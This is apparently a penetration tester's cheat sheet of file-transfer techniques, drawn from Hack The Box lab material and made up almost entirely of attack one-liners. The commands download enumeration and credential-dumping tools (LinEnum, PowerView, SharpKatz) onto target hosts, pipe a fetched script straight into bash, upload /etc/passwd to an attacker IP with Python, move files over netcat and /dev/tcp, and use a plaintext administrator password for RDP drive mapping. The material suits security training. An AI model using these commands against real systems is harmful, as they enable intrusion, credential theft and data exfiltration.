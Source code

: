 
## Download
#### Python
```shell
h@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

```shell
h@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
[[python]]

#### PHP
```shell
h@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```shell
h@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

```shell
h@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
[[php]]

#### Ruby
```shell
h@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

```shell
h@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
[[ruby]]

#### JS [[js]]
Create wget.js:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Run:
```powershell
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
[[powershell]]

#### VB [[vbscript]]
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload

```shell
python3 -m uploadserver 
```

```shell
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## Misc

[[ncat]] [[nc]] 
Recieve
```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

```shell
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```shell
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

Send
```shell
jabrach@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### PowerShell Session File Transfer
```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### RDP
[[rdp]]
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

